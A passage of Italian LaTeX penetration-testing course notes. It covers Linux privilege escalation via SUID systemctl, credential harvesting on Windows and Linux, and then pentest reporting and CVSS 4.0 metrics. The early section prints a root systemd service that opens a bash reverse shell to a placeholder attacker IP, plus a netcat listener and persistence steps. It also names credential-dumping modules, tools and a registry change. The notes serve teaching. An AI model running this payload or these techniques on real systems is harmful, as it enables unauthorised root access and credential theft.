Systemctl è un tool che permette di \textbf{gestire i servizi che girano sulla macchina} ad esempio creandone di nuovi, avviarne altri o arrestare quelli esistenti. Supponendo che all'attaccante possa chiamare \textbf{Systemctl con SUID ad 1}, egli costruisce un file \textbf{privEsc.service} con un servizio personalizzato:

\begin{minipage}{0.45\textwidth}
\begin{verbatim}
[Unit]
Description=GetRoot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c ‘bash -i >& 
	/dev/tcp/IP-Attaccante/Porta 0>&1’
	
[Install]
WantedBy=multi-user.target
\end{verbatim}
\end{minipage}
\begin{minipage}{0.53\textwidth}
\begin{itemize}
	\item \textbf{Unit}: Descrive il servizio, il modo in cui è avviato, i processi che dipendono da esso o quelli da cui dipende, il modo in cui si relaziona al sistema. In questo caso è presente solo \verb|Description|, ovvero "GetRoot".\\
	
	\item \textbf{Service}: Descrive lo script eseguito e come viene eseguito. In questo caso, \verb|Type|, che indica il tipo di servizio, è impostato a \textbf{simple}, \verb|User|, che indica i permessi del servizio, è impostato a \textbf{root} e \verb|ExecStart|, che indica lo script da eseguire, comprende uno script che:
	\begin{enumerate}
		\item Avvia una \textbf{shell Bash} che aspetta ogni comando come \textbf{stringa} (vedi \verb|-c|);
		\item La Shell è avviata in modalità \textbf{interativa}, che quindi si comporta come un normale terminale (vedi \verb|-i|);
		\item Apre una \textbf{connessione TCP} verso l'host, tramite l'\verb|IP-Attaccante| e \verb|Porta|.
		\item Tramite \verb|>&|, ogni operatore reindirizza \textbf{stdout} e \textbf{stderr} verso la connessione TCP.
		\item Tramite \verb|0>&1|, ogni input viene reindirizzato verso la connessione TCP.
	\end{enumerate}
	
	\item \textbf{WantedBy}: Indica la cartella in cui viene collegato il servizio.
\end{itemize}
\end{minipage}

Una volta creato il servizio, l’attaccante cerca una directory o un file su cui può caricarne il contenuto. Sulla sua macchina, l'attaccante \textbf{si mette in ascolto}:
\begin{verbatim}
	nc -nlvp porta
\end{verbatim}

Successivamente, l'attaccante crea il servizio \textbf{privEsc} e lo avvia:
\begin{verbatim}
	/bin/systemctl enable /path/to/privEsc.service
	/bin/systemctl start privEsc
\end{verbatim}

Così facendo, l'attaccante riceve una \textbf{Reverse Shell} con i permessi di \textbf{root}. Con \verb|enable| inoltre, il servizio verrà attivato ad ogni avvio della macchina, creando \textbf{persistenza}.

Molti payload per fare \textbf{privilege escalation} sono presenti su GTFOBins: \verb|https://gtfobins.github.io/|

\subsubsection{PE tramite Sudo}
Il comando \verb|sudo| su Linux permette di eseguire uno o più comandi ad un utente con \textbf{privilegi di root}. Tramite \verb|sudo -l|, vengono elencati gli eseguibili con i privilegi di root.

Su GTFOBins esistono payload disponibili anche per \verb|sudo|.
\newpage
\subsection{Esfiltrazione delle credenziali}
Seppur la via più semplice possa sembrare quella di installare un \textbf{keylogger} e catturare i \textbf{keystroke}, tramite alcuni framework come \textbf{Metasploit} o Empire è possibile estrarre
credenziali \textbf{in chiaro} dai vari repository tramite moduli preinstallati. Ad esempio su MSF ci sono:
\begin{itemize}
	\item \verb|/post/windows/gather/credentials/credential_collector| - Per il gestore di Windows.
	\item \verb|/post/multi/gather/firefox_creds/| - Per il gestore password di Firefox.
	\item \verb|/post/windows/gather/enum_chrome| - Per il gestore password di Chrome.
\end{itemize}

\subsubsection{Mimikatz e Mimipenguin}

Sono due tool, rispettivamente per Windows e per Linux, eseguibili se si dispone di \textbf{permessi di root}. Mimikatz sfrutta il processo \textbf{Local Security Authority Subsystem Service} (o LSASS, anche se da Windows 10 in poi, questo processo \textbf{non le salva più}.\\
Tuttavi, per forzarlo a farlo, è necessario \textbf{alterare il registro di sistema}, inserendo la chiave \verb|UseLogonCredential| e impostandola a \textbf{0}.

\subsubsection{PowerShell}
Esistono diversi script PowerShell che permettono di ottenere password in chiaro da sistemi Windows:
\begin{itemize}
	\item \verb|Get-WebCredebtials.ps1| - Per credenziali su Microsoft Edge.\\ \verb|https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1|
	
	\item \verb|Invoke-WCMDump| - Per credenziali windows dal credential manager. \\
	\verb|https://github.com/peewpw/Invoke-WCMDump|
	
	\item \verb|BrowserGather| - Per i cookie del browser.\\
	\verb|https://github.com/sekirkity/BrowserGather|
	
	\item \verb|SessionGopher| - Per ottenere Hostname e password su tool terzi come WinSCP, PuTTY e FileZilla.\\
	\verb|https://github.com/Arvanaghi/SessionGopher|
\end{itemize}

\newpage
\section{Reporting}
Finita la parte di \textbf{Exploitation} e \textbf{Post-Exploitation}, si compila il report da consegnare all'azienda. Per ogni report, è importante che:

\begin{enumerate}
	\item Contenga un \textbf{Executive Summary} per il \textbf{top management}, spiegato in maniera esaustiva ma \textbf{non tecnica}, in quanto chi legge non è esperto in materia.
	
	\item Ogni vulnerabilità trovata, sia con VA che con PT, sia trattata nello specifico, mensionando \textbf{impatto} e \textbf{mitigazioni}.
	
	\item Ogni vulnerabilità trovata con tool di VA sia opportunamente \textbf{verificata}, in quanto i tool di VA possono essere soggetti ad errori.
\end{enumerate}

\subsection{CVSS Score}
Il \textbf{Common Vulnerability Scoring System} (CVSS), ad oggi nella versione 4.0, fornisce un metodo per rapportare le \textbf{principali caratteristiche di una vulnerabilità} ad un punteggio numerico da 0 a 10 che ne riflette la \textbf{severità}. \\
Alternativamente, la severità di una vulnerabilità si può valutare anche con delle rappresentazioni qualitative, quali \textbf{nessuna}, \textbf{bassa}, \textbf{media}, \textbf{altà}, \textbf{critica}.

\subsubsection{Gruppi di Metriche}
Il CVSS 4.0 è formato da quattro gruppi di metriche:
\begin{itemize}
	\item \textbf{Metriche di Base (Base Metrics)}: Descrivono le caratteristiche intrinseche di una vulnerabilità, che restano \textbf{costanti nel tempo} e sono \textbf{indipendenti dall’ambiente} in cui la vulnerabilità viene sfruttata. 
	
	\item \textbf{Metriche Supplementari (Supplemental Metrics)}: Forniscono \textbf{informazioni aggiuntive} sulla vulnerabilità, come ad esempio la possibilità di \textbf{automatizzare il suo sfruttamento} e l’impatto sulla safety dell’utente.
	
	\item \textbf{Metriche Ambientali (Environmental Metrics)}: Permettono ad una specifica azienda di \textbf{modificare il CVSS Score finale} a seconda delle misure di sicurezza implementate e dell’importanza data alle varie componenti della CIA Triad. Tale modifica viene fatta impostando:
	\begin{itemize}
		\item \textbf{Metriche di Base Modificate (Modified Base Metrics)}:
		L’azienda reimposta i valori attribuiti alle metriche di base all’interno del suo ambiente.
		
		\item \textbf{Requisiti di Sicurezza (Security Requirements)}: L'azienda imposta l’importanza data a ciascun componente della CIA Triad.
	\end{itemize}
	
	\item \textbf{Metriche della Minaccia (Threat Metrics)}: Descrivono la maturità raggiunta dalla comunità nello sfruttamento della vulnerabilità.
\end{itemize}

\subsection{Base Score}
Come già detto, il \textbf{Base Score} permette di capire quanto è grave una vulnerabilità, osservando gli aspetti immutabili della stessa. Per calcolarlo, si usando \textbf{11 metriche divise in 3 categorie}, le \textbf{Exploitability Metrics}, le \textbf{Vulnerable System Impact Metrics} e le \textbf{Subsequent System Impact Metrics}.

\subsubsection{Exploitability Metrics}
Questa categoria include tutte le metriche che forniscono dettagli sullo \textbf{sfruttamento della vulnerabilità}.
\begin{enumerate}
	\item \textbf{Attack Vector}: Definisce da che punto, rispetto al componente vulnerabile, è possibile \textbf{eseguire l'attacco}. Opzioni: \verb|[in remoto], [sulla stessa sottorete], [solo in locale]|\\ \verb|[o con accesso fisico]|
	
	\item \textbf{Attack Complexity}: Definisce quanto è complesso, per l’attaccante, \textbf{portare a termine l’attacco}. Opzioni: \verb|[bassa], [alta]|. Complessità \textbf{alta}: indica che è necessario modificare l’exploit per farlo funzionare su un diverso ambiente o persino ad ogni tentativo di sfruttamento.
	
	\item \textbf{Attack Requirements}: Indica se ci sono \textbf{prerequisiti fuori dal controllo dell’attaccante} che sono necessari per sfruttare la vulnerabilità, ad esempio lo sfruttamento di una race condition. Opzioni: \verb|[si], [no]|.
	
	\newpage
	
	\item \textbf{Privileges Required}: Definisce che tipo di \textbf{privilegi sono richiesti} per eseguire l’attacco. Opzioni: \verb|[nessuno], [bassi (user)], [alti (admin)]|.
	
	\item \textbf{User Interaction}: Definisce che \textbf{tipo di interazione è richiesta}, da parte della \textbf{vittima}, con il payload dell’attaccante. Opzioni: \verb|[nessuna], [passiva], [attiva]|.\\ Interazione \textbf{Passiva} prevede azioni che non comprendono attivamente un sistema (come visitare un sito web), mentre
	Interazione \textbf{Attiva} prevede interazioni dirette col payload o coi sistemi di protezione del sistema (come click su click o attivamente di macro).
\end{enumerate}

\subsubsection{Vulnerable \& Subsequent System Impact Metrics}
Sono gli altri due gruppi di metriche che contribuiscono a calcolare il Base Score. La prima (\textbf{Vulnerable}) definisce l'impatto della vulnerabilità sul sistema in cui è presente, mentre \textbf{Subsequent} definisce l'impatto della vulnerabilità su \textbf{altri sistemi}. 

\begin{enumerate}
	\item \textbf{Confidentiality}: Definisce una stima qualitativa della \textbf{perdita di confidenzialità}.\\ Opzioni: \verb|[nessuna], [bassa], [alta]|. Si può inserire bassa se l’attaccante non può scegliere quali dati esfiltrare, oppure se vengono esfiltrati pochi dati che hanno poca importanza.
	
	\item \textbf{Integrity}: Definisce una stima qualitativa della \textbf{perdita di integrità}.\\ Opzioni: \verb|[nessuna], [bassa], [alta]|. Si può inserire bassa se l’attaccante non può scegliere quali dati alterare, oppure se vengono modificati pochi dati che hanno poca importanza.
	
	\item \textbf{Availability}: Definisce una stima qualitativa della \textbf{perdita di disponibilità}.\\ Opzioni: \verb|[nessuna], [bassa], [alta]|. Si può inserire bassa se l’attaccante non è in grado di negare completamente l’accesso al servizio o alle risorse agli utenti.
\end{enumerate}

\subsection{Metriche Supplementari (Supplemental Metrics)}
Si tratta di metriche opzionali che non impattano il CVSS Score ma che agiscono come una lista aggiuntiva di attributi che è possibile assegnare ad una vulnerabilità per valutare altri aspetti non tecnici.
\begin{itemize}
	\item \textbf{Sicurezza fisica dell'utente (Safety)}: Indica se la salute dell’utente può essere messa a rischio dallo sfruttamento della vulnerabilità. Opzioni: \verb|[trascurabile], [presente]|.\\ Trascurabile indica che al più lo sfruttamento potrà causare ferite minori, mentre Presente indica ferite gravi a uno o più utenti.
	
	\item \textbf{Automatizzabile (Automatable)}: Indica se lo
	sfruttamento della vulnerabilità è completamente automatizzabile, dalla recon all’exploitation. In questo caso, si dice anche che la vulnerabilità è \textbf{wormable}, ovvero il suo exploit può essere scritto sotto forma di worm. Opzioni: \verb|[si], [no]|.
	
	\item \textbf{Ripristino (Recovery)}: Indica se dopo lo sfruttamento della vulnerabilità il sistema può essere ripristinato allo stato iniziale. Opzioni: \verb|[automatico], [utente], [irrecuperabile]|.\\
	Si può inserire \textbf{automatico} se il servizio torna su da solo, \textbf{utente} se è necessario l’intervento manuale per ripristinare il servizio o i dati, o \textbf{irrecuperabile} se il servizio non è ripristinabile: solitamente quest’ultimo parametro viene utilizzato per indicare che la vulnerabilità può distruggere il dispositivo target.

	\item \textbf{Densità delle informazioni di valore (Value Density)}: Indica se il sistema violato è ricco di informazioni utili per l’attaccante o no. Opzioni: \verb|[scarsa], [densa]|.\\
	Un sistema \textbf{scarso} di informazioni permetterà l’accesso ad una modesta quantità di informazioni, mentre uno \textbf{denso} di informazioni permetterà l’accesso a tante informazioni.
	
	\item \textbf{Sforzo necessario per mitigare la vulnerabilità (Vulnerability Response Effort)}: Indica la complessità della riparazione della vulnerabilità. Opzioni: \verb|[bassa], [media], [alta]|.\\
	Bassa si riferisce ad azioni banali come cambiare una spunta nelle configurazioni o aggiornare documentazione.
	Media richiede aggiornamenti software remoti. Alta richiede manutenzione approfondita (come gli aggiornamenti di componenti, BIOS, etc.) o la sostituzione di hardware.
	
	\item \textbf{Urgenza comunicata dal provider (Provider Urgency)}: Il provider del sistema violato può fornire una propria valutazione dell’urgenza della riparazione della vulnerabilità.\\ Opzioni: \verb|[nessuna], [verde], [ambra], [rosso]|. \\
	Non vengono date specifiche linee guida su come il provider dovrebbe
	fare questo assessment.
\end{itemize}

\newpage

\subsection{Metriche Ambientali (Environmental Metrics)}
Tramite le Metriche Ambientali è possibile modificare il Base Score in base alla gravità che la vulnerabilità ha in un determinato contesto. Dispone di 14 metriche, suddivise in 2 gruppi.

\subsubsection{Modified Base Metrics}
Il primo gruppo comprende 11 metriche, ovvero le \textbf{Base Metrics} modificate nel contesto dell'azienda. Inoltre per le Modified Integrity e Availability compare Safety qui, che viene utilizzata per modificare il CVSS Score finale, contrariamente a quanto accadeva nelle Supplemental Metrics.

\subsubsection{Security Requirements Metrics}
Il secondo gruppo comprende 3 metriche e non viene calcolato sulla vulnerabilità, ma sulla \textbf{criticità dei dati} e \textbf{dei servizi} all’interno dei sistemi vulnerabili.

\begin{enumerate}
	\item \textbf{Confidentiality Requirement} - Opzioni: \verb|[basso], [medio], [alto]|.\\ \textbf{Alto} se ci sono dati critici in chiaro, come dati personali o credenziali in chiaro. \textbf{Medio} se ci sono dati critici criptati, dati non critici in chiaro, o se si
	tratta di equipaggiamenti di rete. \textbf{Basso} se ci sono dati non critici criptati.
	
	\item \textbf{Integrity Requirement} - Opzioni: \verb|[basso], [medio], [alto]|.\\ \textbf{Alto} se ci sono dati relativi a transazioni di pagamento, dati personali, qualsiasi informazione possa avere impatto sulla Safety o se si tratta di firewall. \textbf{Medio} se ci sono dati utilizzati per decidere strategie di mercato, di business, o se si tratta di equipaggiamenti di rete. \textbf{Basso} se i dati o i sistemi non rientrano nelle categorie di cui sopra.
	
	
	\item \textbf{Availability Requirement} - Opzioni: \verb|[basso], [medio], [alto]|.\\ \textbf{Alto} se non c’è ridondanza ed è necessario ripristinare il servizio o i dati entro 24 ore, oppure se il rapido ripristino del servizio è richiesto dalla normativa vigente. \textbf{Medio} se non c’è ridondanza ed è necessario ripristinare il servizio entro 5 giorni. \textbf{Basso} in tutti gli altri casi.
\end{enumerate}

\subsection{Threat Metrics}
Le Threat Metrics possono essere usate per modificare il Base Score, in base alla maturità attuale della comunità nello sfruttamento della vulnerabilità. Ad eccezione della metrica \textbf{Exploit Maturity} (tra le opzioni: \verb|[sfruttata in attacchi], [POC], [nessun rilevamento]|), le threat metrics sono poco utilizzate, in quanto \textbf{opzionali}.

Per valutare cosa assegnare, bisogna rispondere a tre domande:
\begin{enumerate}
	\item Esiste una Proof-of-Concept pubblica per questa vulnerabilità? 
	\item Sono noti tentativi di sfruttamento di questa vulnerabilità in-the-wild?
	\item Esistono soluzioni per aiutare gli attaccanti a sfruttare questa vulnerabilità?
\end{enumerate}

In base alla risposta, può non esserci "alcun rilevamento", essere una POC oppure essere una vulnerabilità sfruttata da attaccanti reali.

\end{document}
